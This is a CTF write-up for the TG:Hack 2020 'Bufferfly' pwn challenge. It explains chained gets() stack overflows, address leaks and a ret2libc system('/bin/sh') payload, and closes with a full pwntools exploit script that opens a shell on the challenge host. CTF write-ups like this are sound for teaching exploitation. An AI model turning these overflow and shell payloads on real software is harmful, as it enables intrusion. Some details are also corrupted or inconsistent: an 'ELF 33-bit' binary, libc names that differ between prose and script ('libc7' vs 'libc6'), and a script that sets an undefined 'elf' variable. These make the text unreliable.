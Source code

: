 ```yaml
---
layout: post
title: TG:Hack CTF 2020 - Bufferfly 
---
```


> We've been hunting the space goblins for quite some time now. However, we're still having some trouble identifying their leader. In our last mission, we found a mysterious-looking chest that we think might contain some useful information. Could you help us open it?
>
> nc bufferfly.tghack.no 6002
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
bufferfly: ELF 33-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked,
interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=a05c0f3c2acaa4b274bb1447c7df39db6b02194c, with debug_info, not stripped

Canary                        : ✘
NX                            : ✓
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
{% endhighlight %}

In this challenge we are provided with the source and and we are required to perform bunch of overflows until getting to the point where binary reveals mprotect address where another stack overflow can be performed.

### Task #1

{% highlight c %}
struct voice_recognizer voice;
voice.bubble = 1;
voice.characteristics = 37;
printf("\"Welcome! Please identify yourself.\"\n");

gets(voice.words);

bool conditions_met = voice.characteristics == 25 && voice.bubble == 0;
if (conditions_met) {
{% endhighlight %}

To meet conditions we fill `voice.words` with 17 bytes and then oveverflow `voice.bubble` and `voice.characteristics` by sending '\x00' and '\x00\x00\x00\x25'.

{% highlight python %}
payload = (
    b"A" * 17 +
    p8(0) +
    p32(25)
)
{% endhighlight %}

### Task #2

{% highlight c %}
char second[20];
printf("The chest opens up and a small, rusty laptop is unveiled\n"
	"\"Hi, old goblin-friend! Remember the last time we saw each other?"
        " We were hanging at our supersecret base, you know, the one"
        " at %p!\n Ah yes, good times!\"", &supersecret_base);

printf("The screen flickers and the computer dies. Were do you ");
printf("wanna go now?\n");
gets(second);
{% endhighlight %}

We need to overwrite return address to the value of supesecret_base function. We can do it by sending following payload:

{% highlight python %}
supersecret_base = int(re.search(b"the one at (0x[0-9a-f]+)!", data).group(1), 16)
elf.address = supersecret_base - 0x805

log.info("Leak: 0x%x", supersecret_base)
log.info("ELF: 0x%x", elf.address)


payload = (
    b"A" * 20 +
    b"B" * 12 +
    p32(supersecret_base)
)
io.sendline(payload)
{% endhighlight %}

### Task #3

{% highlight c %}
char buf[60] = { 0 };
char done[12] = { 0 };
printf("\"Hi, I'm the Boblinessa cult encyclopedia!\"\n");
printf("\"So, what where you looking for?\"\n");

while(gets(buf)) {
    if (!strcmp(buf, "open_door")) {
        printf("Oh, that's right here: %p.\n", &open_door);
    } else if (!strcmp(buf, "mprotec")) {
        printf("Ah yes, our sweet Boblinessa. She protec. She protecs right "
               "here in fact: %p.\n", &mprotect);
    } else if (!strcmp(buf, "mattac")) {
        printf("What?! No, she would never do that...\nAlso I'm hiding "
               "here: %p. She wouldn't even find me here...\n", &buf);
    } else if (!strcmp(buf, "quit")) {
        printf("Ta ta for now!\n");
        break;
    } else {
        printf("I don't think we have access to that right now...\n");
    }
    printf("\nOkay, so do you wanna see anything else or are you done?\n");
    gets(done);
    if (!strcmp(done, "done")) {
        return;
{% endhighlight %}

In final task we are provided with mprotect address and we are expected to drop a shell on the target system. Once we have `mprotect` address we can use libc database to figure out which libc is used - in this case its `libc7-i386_2.27-3ubuntu1_amd64.so`.

Sending following payload results in getting a shell on a target system:

{% highlight python %}
io.sendline("mprotec")
data = io.recvuntil('Okay, so do you wanna see anything else or are you done?\n')

mprotect = int(re.search(b"in fact: (0x[0-9a-f]+).\n", data).group(1), 16)
libc.address = mprotect - libc.sym.mprotect

log.info("Mprotect: 0x%x", mprotect)
log.info("Libc: 0x%x", libc.address)

payload = (
    b"done\x00" +
    b"A" * 79 +
    p32(libc.sym.system) +
    b"B" * 4 +
    p32(next(libc.search(b"/bin/sh")))
)
io.sendline(payload)

io.interactive()
{% endhighlight %}

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

import re
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./bufferfly')
#libc = ELF("/lib/i386-linux-gnu/libc.so.6")
#libc = ELF("./libc6-amd64_2.27-3ubuntu1_i386.so")
libc = ELF("libc6-i386_2.27-3ubuntu1_amd64.so")

host = args.HOST or 'bufferfly.tghack.no'
port = int(args.PORT or 6002)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()
io.recvuntil('"Welcome! Please identify yourself."\n')

payload = (
    b"A" * 17 +
    p8(0) +
    p32(25)
)

io.sendline(payload)
data = io.recvuntil("Were do you wanna go now?\n")

supersecret_base = int(re.search(b"the one at (0x[0-9a-f]+)!", data).group(1), 16)
elf.address = supersecret_base - 0x805

log.info("Leak: 0x%x", supersecret_base)
log.info("ELF: 0x%x", elf.address)


payload = (
    b"A" * 20 +
    b"B" * 12 +
    p32(supersecret_base)
)
io.sendline(payload)

io.recvuntil('"So, what where you looking for?"\n')
io.sendline("mprotec")
data = io.recvuntil('Okay, so do you wanna see anything else or are you done?\n')

mprotect = int(re.search(b"in fact: (0x[0-9a-f]+).\n", data).group(1), 16)
libc.address = mprotect - libc.sym.mprotect

log.info("Mprotect: 0x%x", mprotect)
log.info("Libc: 0x%x", libc.address)

payload = (
    b"done\x00" +
    b"A" * 79 +
    p32(libc.sym.system) +
    b"B" * 4 +
    p32(next(libc.search(b"/bin/sh")))
)
io.sendline(payload)

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/tghack/bufferfly
